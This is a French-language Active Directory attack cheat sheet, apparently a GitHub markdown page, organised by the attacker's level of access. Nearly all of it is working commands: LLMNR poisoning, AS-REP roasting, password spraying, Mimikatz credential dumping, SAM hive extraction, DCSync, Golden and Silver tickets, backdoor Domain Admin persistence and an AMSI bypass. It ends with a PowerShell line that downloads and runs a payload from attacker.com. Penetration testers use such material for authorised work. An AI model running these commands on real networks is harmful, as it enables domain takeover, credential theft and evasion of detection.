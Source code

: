 # Stratégies d'attaque Active Directory selon le niveau d'accès
## Sans credentials
### Découverte réseau et énumération initiale
```bash
# Découverte d'hôtes actifs
fping -asgq 192.168.1.0/24
nmap -sn 192.168.1.0/24

# Identification des contrôleurs de domaine
nmap -p 389,636,3268,3269,88,53,445 --open 192.168.1.0/24
```
### Exploitation des services anonymes
#### LDAP anonyme
```bash
# Vérifier si l'accès anonyme est autorisé
ldapsearch -x -h 192.168.1.10 -p 389 -b "dc=domain,dc=local" -s sub "(objectclass=*)"

# Extraire des informations sur le domaine
ldapsearch -x -h 192.168.1.10 -p 389 -b "dc=domain,dc=local" -s base "objectclass=*"
```
#### SMB anonyme
```bash
# Énumération des partages accessibles
smbmap -H 192.168.1.10 -u '' -p ''
smbclient -N -L //192.168.1.10

# Accès aux partages sans authentification
smbclient -N //192.168.1.10/SYSVOL
```
### Empoisonnement LLMNR/NBT-NS
```bash
# Lancement de Responder
sudo responder -I eth0 -wfv

# Craquage des hashes capturés
hashcat -m 5600 hashes.txt wordlist.txt
```
### Exploitation des services web
```bash
# Découverte des portails web
nmap -p 80,443,8080,8443 --open 192.168.1.0/24

# Fuzzing des sous-domaines
wfuzz -u http://domain.local -H "Host: FUZZ.domain.local" -w /usr/share/SecLists/Discovery/DNS/subdomains-top1million-5000.txt --hw 26
```
## Avec un accès initial (assumed breach)
### Énumération post-compromission
```powershell
# Informations sur l'utilisateur actuel
whoami /all

# Énumération du domaine avec PowerView
Import-Module .\PowerView.ps1
Get-Domain
Get-DomainController
Get-DomainPolicy | select -ExpandProperty SystemAccess
```
### Recherche de privilèges et accès
```powershell
# Recherche d'accès administrateur local
Find-LocalAdminAccess

# Recherche de sessions utilisateurs
Find-DomainUserLocation | select UserName,SessionFromName

# Recherche de partages intéressants
Find-DomainShare -CheckShareAccess
```
### Collecte avec BloodHound
```powershell
# Exécution de SharpHound
Import-Module .\SharpHound.ps1
Invoke-BloodHound -CollectionMethod All

# Depuis Linux avec un compte compromis
bloodhound-python -u user -p 'password' -d domain.local -c All -ns 192.168.1.10
```
### Exploitation des ACLs
```powershell
# Recherche d'ACLs exploitables pour l'utilisateur actuel
$sid = Convert-NameToSid "username"
Get-DomainObjectACL -ResolveGUIDs | ? {$_.SecurityIdentifier -eq $sid}
```
## Avec un username mais pas de mot de passe
### AS-REP Roasting
```bash
# Identification des comptes sans pré-authentification Kerberos
GetNPUsers.py domain.local/ -dc-ip 192.168.1.10 -request -format hashcat

# Craquage des hashes
hashcat -m 18200 hashes.txt wordlist.txt
```
### Password Spraying
```bash
# Avec Kerbrute (méthode discrète)
kerbrute passwordspray -d domain.local --dc 192.168.1.10 users.txt 'Spring2023!'

# Avec CrackMapExec
crackmapexec smb 192.168.1.10 -u users.txt -p 'Spring2023!' --continue-on-success
```
### Recherche de mots de passe dans des sources publiques
```bash
# Vérification des fuites de données
curl -s https://haveibeenpwned.com/api/v3/breachedaccount/user@domain.com

# Recherche sur GitHub et Pastebin
# Utiliser des outils comme trufflehog ou gitleaks
```
## Avec un mot de passe mais pas d'username
### Bruteforce d'utilisateurs
```bash
# Avec Kerbrute
kerbrute userenum -d domain.local --dc 192.168.1.10 userlist.txt

# Avec SMB
crackmapexec smb 192.168.1.10 -u userlist.txt -p 'KnownPassword' --continue-on-success
```
### Énumération RID
```bash
# Avec rpcclient
rpcclient -U "" -N 192.168.1.10
rpcclient $> enumdomusers

# Avec impacket
lookupsid.py 'anonymous:@192.168.1.10'
```
### Vérification des conventions de nommage
```bash
# Génération de listes d'utilisateurs basées sur des modèles
# Exemple: prénom.nom, p.nom, pnom, etc.
for name in $(cat names.txt); do
  echo "${name}" >> userlist.txt
  echo "${name:0:1}.${name}" >> userlist.txt
  echo "${name:0:1}${name}" >> userlist.txt
done
```
## Scénario post-exploitation
### Extraction de credentials
```powershell
# Mimikatz
Invoke-Mimikatz -Command '"sekurlsa::logonpasswords"'

# Dump des hashes SAM
reg save HKLM\SAM sam.save
reg save HKLM\SYSTEM system.save
reg save HKLM\SECURITY security.save

#and to dump:
secretsdump.py -sam '/path/to/sam.save' -security '/path/to/security.save' -system '/path/to/system.save' LOCAL
```
### Élévation de privilèges via DCSync
```powershell
# Vérification des droits DCSync
Get-ObjectAcl "DC=domain,DC=local" -ResolveGUIDs | ? { ($_.ObjectAceType -match 'Replication-Get') }

# Exécution de DCSync
Invoke-Mimikatz -Command '"lsadump::dcsync /domain:domain.local /user:krbtgt"'
secretsdump.py -just-dc domain.local/user:password@192.168.1.10
```
### Création de Golden/Silver Tickets
```powershell
# Golden Ticket
Invoke-Mimikatz -Command '"kerberos::golden /domain:domain.local /sid:S-1-5-21-X-Y-Z /rc4:HASH_OF_KRBTGT /user:FakeAdmin /id:500 /ptt"'

# Silver Ticket
Invoke-Mimikatz -Command '"kerberos::golden /domain:domain.local /sid:S-1-5-21-X-Y-Z /rc4:HASH_OF_COMPUTER_ACCOUNT /user:FakeAdmin /service:cifs /target:server.domain.local /ptt"'
```
### Persistance
```powershell
# Ajout d'un utilisateur au groupe Domain Admins
Add-DomainGroupMember -Identity 'Domain Admins' -Members 'backdooruser'

# Création d'un compte machine avec délégation
New-MachineAccount -MachineAccount "PERSISTENCE$" -Password $(ConvertTo-SecureString 'Password123!' -AsPlainText -Force)
Set-ADComputer -Identity "PERSISTENCE$" -TrustedForDelegation $true
```
### Évasion des détections
```powershell
# Contournement d'AMSI
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)

# Exécution en mémoire
IEX (New-Object Net.WebClient).DownloadString('http://attacker.com/payload.ps1')

# Utilisation de canaux de communication alternatifs
# DNS, ICMP, etc.
```
